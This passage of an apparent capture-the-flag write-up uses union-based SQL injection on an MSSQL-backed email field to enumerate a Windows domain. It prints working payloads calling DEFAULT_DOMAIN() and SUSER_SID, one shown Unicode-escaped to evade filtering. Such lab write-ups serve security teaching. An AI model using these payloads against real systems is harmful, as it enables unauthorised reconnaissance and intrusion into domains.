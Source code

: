 ![](/img/image-20200331063743518.png)

I can see the static string in the `email field`.

#### Get Default Domain

First step is to get the domain name with `SELECT DEFAULT_DOMAIN()`. I
can just replace all the static `CHAR` with that query to get:



    test' UNION ALL SELECT 58,58,58,DEFAULT_DOMAIN(),58-- gxQm



Which encodes to:



    \u0074\u0065\u0073\u0074\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0041\u004C\u004C\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0035\u0038\u002C\u0035\u0038\u002C\u0035\u0038\u002C\u0044\u0045\u0046\u0041\u0055\u004C\u0054\u005F\u0044\u004F\u004D\u0041\u0049\u004E\u0028\u0029\u002C\u0035\u0038\u002D\u002D\u0020\u0067\u0078\u0051\u006D



Which returns MEGACORP:

![](/img/image-20200331064000628.png)

#### Get a Domain RID

Now I need to get a domain RID using the `SUSER_SID` function on a known
group (I'll use `MEGACORP/Domain Admins`):



    test' UNION ALL SELECT 58,58,58,SUSER_SID('MEGACORP\Domain Admins'),58-- gxQm
